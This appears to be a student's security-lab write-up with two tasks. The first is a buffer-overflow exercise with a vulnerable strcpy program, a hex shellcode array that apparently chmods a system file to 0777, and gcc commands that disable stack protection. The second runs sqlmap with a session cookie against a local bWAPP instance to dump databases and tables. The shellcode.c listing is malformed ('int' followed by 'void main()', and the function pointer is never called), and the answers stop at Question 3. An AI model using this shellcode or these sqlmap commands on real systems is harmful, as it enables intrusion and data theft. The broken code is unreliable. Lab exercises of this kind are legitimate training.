 # Lab #1, 22110010, Nguyen Huynh Quoc Bao, INSE330380E_03FIE
# Task 1: Software buffer overflow attack
This lab demonstrate a software buffer overflow attack to exploit vulnerabilities and execute arbitrary code using a vulnerable C program and shellcode.

**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Answer 1**:
## 1. Create C program name `vulnerable.c` and `shellcode.c`:
*First, we use the command to create C program file in cmd:*
### Vulnerable.c program
```
nano vulnerable.c
```

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```
![alt text](img/vulnerable_c.png)
### Shellcode.c program
```
nano shellcode.c
```
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
![alt text](img/shellcode_c.png)
## 2. Use gcc to complie code to executable code
*After that, we use gcc to complie code from above to create a executable code that exist in ls of cmd*
```
gcc -o shellcode shellcode.c -fno-stack-protector -z execstack
```
![alt text](img/shellcode_gcc.png)
```
gcc -o vulnerable vulnerable.c -fno-stack-protector -z execstack
```
![alt text](img/vulnerable_gcc.png)

# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

## 1. Install bWapp
*First, we need to install bWapp and setup. Use docker command to pull bWapp on the located file*
```
docker pull raesene/bwapp
```
![alt text](img/bWapp_install.png)

*After that, use docker run command to release the docker file*

![alt text](img/bWapp_run.png)

*After all, when we paste the `localhost:8025/install.php` on browser address bar and the webpage appear (When install finished)*
![alt text](img/bWapp_finish.png)

## 2. Install sqlmap:
*Use the link: https://github.com/sqlmapproject/sqlmap.git to download sqlmap to your computer*

## Attack
*Login into the webpage that we already access Click Installation, login with the given account to access to the portal*
![alt text](img/bWapp_portal.png)
*Get the cookie to attack*
![alt text](img/cookies.png)
*Cookie value: at1g88ndl1a334gnk1mskn0ph1*

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:
*Go to SQL Injection - SELECT*
![alt text](<img/SQL Injection.png>)
*Select random moive:*
![alt text](img/movie.png)
*Then we will get the action go in the URL page*
`http://localhost:8025/sqli_2.php?movie=10&action=go`
*Use this command to access:*
`python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=10" --cookie="PHPSESSID=at1g88ndl1a334gnk1mskn0ph1;security_level=0" --dbs`
![alt text](img/img_1.png)
*We will get the answer:*
![alt text](img/img_2.png)
**Question 2**: Use sqlmap to get tables, users information

**Answer 2**:
*Use this command to ghet table:*
`python3 sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=10" --cookie="PHPSESSID=t1g88ndl1a334gnk1mskn0ph1;security_level=0"  --tables`

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit 

**Answer 3**: